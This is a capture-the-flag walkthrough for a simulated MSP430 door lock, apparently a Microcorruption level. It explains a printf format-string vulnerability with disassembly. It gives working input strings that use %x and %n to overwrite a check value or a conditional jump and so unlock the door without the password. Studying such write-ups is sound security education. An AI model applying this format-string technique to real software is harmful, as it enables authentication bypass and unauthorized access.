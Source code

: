 # Addis Ababa

## Challenge overview

Lockitall LockIT Pro, rev b.03
- We have verified passwords can not be too long.
- Usernames are printed back to the user for verification.
- This lock is attached the the LockIT Pro HSM-1.

## Solution

### Solution overview

This solution utilizes a format string vulnerability to inject a code fault at a critical point in the authentication algorithm.

### Analysis

The device requires an input string in the format &lt;username&gt;:&lt;password&gt;.  The total length of the input string, including null terminator, may not be longer than 20 characters.

On analysis of the disassembled code, the input is written back out using printf(), which supports %s, %x and %n.  It does not support '\\' escapes, '$' parameters, or any other parameters.  The limited parameter options combined with the limited input size makes the format string vulnerability unsuitable for writing arbitrary values.

There are a limited number of things that we can do with this format string vulnerability.  We can provide an address to overwrite within the input string, and %x can be used to consume unwanted parameters so that %n can be aligned with the address parameter.  However, %n can only be used to write small values.  We don't have appropriate parameters or input string length to build output characters up to any arbitrary number for %n to write.  So while we can aim, we are very limited in what we can write.

### Attack

Perhaps we can clobber a single instruction, as in a clock glitch or voltage glitch attack, and affect the flow of execution.  The following section of code includes a conditional jump just before the call to unlock_door().  If we knock out either the check value at 0x448C or the conditional jump at 0x448E, we can unlock the door despite failing the authentication check.

	447c:  b012 c845      call	#0x45c8 <printf>            ; Execute format string here.
	4480:  2153           incd	sp
	4482:  3f40 0a00      mov	#0xa, r15
	4486:  b012 5045      call	#0x4550 <putchar>
	448a:  8193 0000      tst	0x0(sp)                     ; Overwrite 0x0000,
	448e:  0324           jz	#0x4496 <main+0x5e>         ; ...or overwrite conditional jump.
	4490:  b012 da44      call	#0x44da <unlock_door>       ; Profit here either way.
	4494:  053c           jmp	#0x44a0 <main+0x68>
	4496:  3012 1f45      push	#0x451f "That entry is not valid."
	449a:  b012 c845      call	#0x45c8 <printf>
	449e:  2153           incd	sp
	44a0:  0f43           clr	r15
	44a2:  3150 1600      add	#0x16, sp
	44a6 <__stop_progExec__>
	44a6:  32d0 f000      bis	#0xf0, sr
	44aa:  fd3f           jmp	#0x44a6 <__stop_progExec__+0x0>

Just ignore for a moment whether or not the MSP430 has any code protection, or whether or not this device is running code from flash.  Let's try it anyway.

The following input strings should implement our attack:

	"\x8C\x44%x%n" or "\x8E\x44%x%n"

Broken down as follows:
* \x8C\x44 is the address of the check value that we want to overwrite (solution 1).
* \x8E\x44 is the address of the conditional jump that we want to overwrite (solution 2).
* %x consumes a parameter, so that %n will align with the address at the beginning of the input string.
* %n writes out the number of characters written so far (0x0002).

The final solutions, provided as hex input: 8C442578256E or 8E442578256E
